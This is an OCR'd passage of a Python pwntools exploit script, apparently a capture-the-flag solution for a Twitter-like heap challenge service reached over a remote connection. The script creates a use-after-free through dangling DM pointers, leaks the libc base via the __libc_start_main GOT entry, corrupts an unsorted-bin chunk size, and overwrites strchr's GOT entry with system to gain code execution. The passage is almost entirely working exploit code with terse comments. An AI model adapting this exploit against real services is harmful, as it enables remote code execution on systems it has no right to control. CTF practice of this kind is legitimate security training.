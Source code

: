```python
    r.sendlineafter(">> ", "7")
    r.sendlineafter(">> ", name)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    signup("A"*4) # fastbin[0] * 2
    signup("B"*4) # fastbin[0] * 2
    signup("C"*30) # fastbin[0] * 1 + fastbin[1] * 1 

    signin("A"*4)
    tweet("aaaa") 
    signout()

    signin("B"*4)
    tweet("bbbb")
    dm("A"*4, "BA") # for creating dangling pointer
    dm("C"*30, "BC")
    signout()

    signin("C"*30)
    tweet("cccc")
    signout()

    signin("B"*4)
    change_name("\t") # invalid, will remove user (user AAAA's DM become dangling pointer)
    signin("C"*30)
    change_name("\t") 

    signup("d"*7)
    signin("d"*7)
    for i in xrange(6,2,-1): # null out the address
        change_name("d"*i)

    malusr = p64(elf.got['__libc_start_main'])
    change_name(malusr) # AAAA's DM's sender->name will pointer to __libc_start_main@got.plt
    signout()

    # leak libc
    signin("A"*4)
    r.sendlineafter(">> ", "2") # show DM, leak libc
    r.recvuntil("[")
    libc.address += u64(r.recv(6).ljust(8,"\x00")) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']

    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    signout()

    # somehow we can overwrite an unsortbin chunk's size
    # enlarge the size, so we can overflow the heap buffer and fake some data structure
    signin(malusr)
    change_name("i"*24+p8(0xa1))
    tweet("fuck") # will allocate chunk from smallbin
    change_name(p8(0x40)) # make this user into right index
    tweet("7"*16+p64(0x60302a)) # allocate chunk from unsortbin, overwrite data structure. We can now start overwriting memory from 0x60302a

    # start overwriting, we wish to overwrite strchr's got
    change_name("A"*6+"B"*8+p64(system_addr)) # padding + padding + strchr's got (overwrite to system)
```